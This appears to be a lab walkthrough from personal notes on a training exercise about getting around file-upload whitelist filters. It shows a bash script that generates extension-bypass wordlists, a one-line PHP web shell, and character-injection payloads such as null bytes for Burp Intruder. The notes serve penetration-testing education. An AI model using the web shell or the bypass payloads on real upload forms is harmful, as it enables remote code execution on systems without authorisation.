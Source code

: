 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

In some cases whitelists may be used to prevent malicious threats for uploading unintended file formats.

<figure><img src="../../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

Lets capture the upload request and fuzz the extension like in the previous exercise.&#x20;





But this time, we'll create our own wordlist. We will adapt the bash script from HTB and add two more extensions ending up with a script like this:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Just paste it on your machine and press enter to execute it, and then copy the content to the Intruder's payload configuration



Again we will use the [SecList](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) wordlist to fuzz.

<figure><img src="../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

We can see the that in all the requests we get the message "Only images are allowed". However, this error message does not always reflect if the proper validation is being used.

Lets assume a scenario where this web application is only looking for matching extensions like jpg, jpeg, png and gif. To bypass this filter we'll try double extensions, to see if we can bypass it.

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

We'll intercept the upload request and add to filename parameter a file with double extension like `shell.jpg.php`. If the application is only looking for a matching extension, we should be able to bypass the filter.

Then we'll our web shell payload:

```php
<?php system($_REQUEST['cmd']); ?>
```

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

However, it looks like this method is not going to work.

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

Lets explore a second method called character Injection. We send our request to Intruder, and modify the filename to `shell.php§ext§.jpg`. To the payload we add the following characters:

* `%20`
* `%0a`
* `%00`
* `%0d0a`
* `/`
* `.\`
* `.`
* `…`
* `:`

Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, `shell.php%00.jpg` may be accepted by the whitelist, but interpreted like `shell.php`.

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

And it looks like we found two working characters. Lets try again with the POST request.

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

Send to Intruder



<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Hide all columns

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

